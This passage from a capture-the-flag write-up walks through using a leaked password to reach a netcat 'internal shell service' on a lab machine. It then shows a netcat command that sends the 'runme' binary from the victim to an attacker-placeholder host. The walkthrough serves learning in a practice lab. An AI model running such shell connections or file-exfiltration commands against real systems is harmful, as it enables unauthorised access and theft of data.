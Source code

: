 ```bash
```

I downloaded the `note.txt` and found the following text:
```text
$ cat note.txt                                               
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is [removed].
- catlover
```

With this information, I moved on to port `4420`.

## Port 4420 Analysis

By using `netcat`, I was able to interact with the service. After entering the previous found password, I had something resembling a shell:
```bash
$ nc 10.10.215.136 4420      
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
[removed]
Password accepted
ls
bin
etc
home
lib
lib64
opt
tmp
usr
whoami
/bin/sh: 1: whoami: not found
```

I continued further enumeration and found an interesting binary in the `/home/catlover` directory:
```bash
# ls /home    
  catlover
# ls /home/catlover
  runme
```

By using `netcat`, I was able to download the binary:
```bash
Victim machine   : nc [attackerip] 8001 < /home/catlover/runme
Attacker machine : $ nc -lnvp 8001 > runme
```

Once the download completed, I analyzed the binary using IDA. I found an interesting string right at the top:
